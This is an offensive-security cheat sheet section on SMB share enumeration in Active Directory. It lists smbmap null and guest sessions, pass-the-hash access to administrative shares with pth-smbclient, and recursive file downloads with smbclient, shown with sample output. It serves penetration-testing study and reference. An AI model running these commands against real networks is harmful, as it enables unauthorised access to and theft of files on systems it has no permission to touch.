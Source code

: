 # Domain Shares

Some shares can be accessible without authentication, explore them to find some juicy files

[smbmap](https://github.com/ShawnDEvans/smbmap)

```c
smbmap -H 10.10.10.10                # null session
smbmap -H 10.10.10.10 -R             # recursive listing
smbmap -H 10.10.10.10 -u invaliduser # guest smb session
smbmap -H 10.10.10.10 -d "DOMAIN.LOCAL" -u "USERNAME" -p "Password123*"
```

[pth-smbclient from path-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

```c
pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/C$
ls  # list files
cd  # move inside a folder
get # download files
put # replace a file
```

[smbclient from Impacket](https://github.com/SecureAuthCorp/impacket)

```c
smbclient -I 10.10.10.100 -L ACTIVE -N -U ""
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        Replication     Disk      
        SYSVOL          Disk      Logon server share
        Users           Disk
use Sharename # select a Sharename
cd Folder     # move inside a folder
ls            # list files
```

[smbclient - from Samba, ftp-like client to access SMB/CIFS resources on servers](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)

```clike
smbclient -U username //10.0.0.1/SYSVOL
smbclient //10.0.0.1/Share

# Download a folder recursively
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> lcd '/path/to/go/'
smb: \> mget *
```
